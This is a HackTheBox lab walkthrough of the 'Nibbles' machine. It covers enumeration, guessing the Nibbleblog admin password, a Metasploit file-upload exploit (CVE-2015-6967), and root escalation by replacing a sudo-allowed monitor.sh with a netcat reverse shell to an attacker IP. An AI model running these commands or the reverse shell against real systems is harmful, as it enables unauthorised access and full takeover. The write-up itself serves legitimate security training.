

# Nibbles — HackTheBox Walkthrough

**Platform:** HackTheBox
**Difficulty:** Easy
**OS:** Linux

---

## TL;DR

Directory enumeration uncovers `nibbleblog` running on the web server → Guessing credentials (`admin:nibbles`) provides access to the Nibbleblog admin dashboard → Exploiting an authenticated Arbitrary File Upload vulnerability (CVE-2015-6967) via Metasploit yields an initial shell → `sudo -l` reveals that the `nibbler` user can run a specific `monitor.sh` script as root without a password → Overwriting `monitor.sh` with a reverse shell payload and executing it drops a root shell.

---

## Enumeration

Full nmap scan:

```bash
nmap -sC -sV -p- -n -Pn 10.10.10.75
```

**Open Ports:**
| Port | Service | Version |
|------|---------|---------|
| 22 | SSH | OpenSSH 7.2p2 Ubuntu |
| 80 | HTTP | Apache httpd 2.4.18 (Ubuntu) |

Visiting port 80 displays a simple "Hello World" page. Viewing the page source reveals a hidden HTML comment pointing to a directory: `/nibbleblog`.

We run Gobuster specifically on the `/nibbleblog` directory:

```bash
gobuster dir -u http://10.10.10.75/nibbleblog -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

This reveals several key paths, including:
- `/admin.php` (The login portal)
- `/content/private/users.xml` (Contains configuration data, revealing the valid username `admin`)
- `/README` (Reveals the blog version: Nibbleblog 4.0.3)

---

## Exploitation — Nibbleblog File Upload (CVE-2015-6967)

We check Searchsploit or Metasploit for vulnerabilities affecting Nibbleblog 4.0.3 and find an authenticated Arbitrary File Upload exploit.

To use it, we need credentials. We try a basic password guess based on the machine name against the `admin` portal at `/nibbleblog/admin.php`:

**Username:** `admin`
**Password:** `nibbles`

The guess works, and we are logged in!

We launch Metasploit to automate the exploit against the "My Image" plugin within Nibbleblog, which fails to restrict `.php` extensions:

```bash
msfconsole
msf > use exploit/multi/http/nibbleblog_file_upload
msf exploit(multi/http/nibbleblog_file_upload) > set rhosts 10.10.10.75
msf exploit(multi/http/nibbleblog_file_upload) > set targeturi /nibbleblog
msf exploit(multi/http/nibbleblog_file_upload) > set username admin
msf exploit(multi/http/nibbleblog_file_upload) > set password nibbles
msf exploit(multi/http/nibbleblog_file_upload) > set lhost tun0
msf exploit(multi/http/nibbleblog_file_upload) > exploit
```

Metasploit uploads the payload, triggers it, and opens a Meterpreter session.
We now have user access as `nibbler`.

---

## Privilege Escalation — Writable Sudo Script

Once we have a shell, our first step for local privilege escalation is to check our sudo privileges:

```bash
sudo -l
```



The output shows that the `nibbler` user is allowed to run the following script as `root` without providing a password:
`/home/nibbler/personal/stuff/monitor.sh`

We navigate to the home directory and find a ZIP file (`personal.zip`). By unzipping it, we extract the required folder structure and the script itself:

```bash
cd /home/nibbler
unzip personal.zip
```

Checking the permissions of `monitor.sh`, we see that it is writable by our user. 

We rename the original script and create a new malicious `monitor.sh` containing a reverse shell payload:

```bash
mv /home/nibbler/personal/stuff/monitor.sh /home/nibbler/personal/stuff/monitor.sh.bak
echo '#!/bin/bash' > /home/nibbler/personal/stuff/monitor.sh
echo 'busybox nc 10.10.14.32 2222 -e /bin/sh' >> /home/nibbler/personal/stuff/monitor.sh
chmod +x /home/nibbler/personal/stuff/monitor.sh
```

We start a Netcat listener on port 2222 on our attacking machine and execute the script via sudo:

```bash
sudo /home/nibbler/personal/stuff/monitor.sh
```

The script executes as root, and our Netcat listener catches the incoming connection.

We are `root`. 🎉

---

## Key Takeaways

- **Default/Weak Credentials:** Administrative portals must be secured with strong passwords. Relying on default credentials or predictable passwords (like the machine name) is trivial to exploit.
- **Sudo Misconfigurations:** Allowing a user to run a script as root without a password is only secure if the user *cannot* modify the script or its parent directories. In this case, `nibbler` owned the file, allowing a complete privilege escalation bypass.

---

*Thanks for reading! Follow for more HackTheBox walkthrough content.*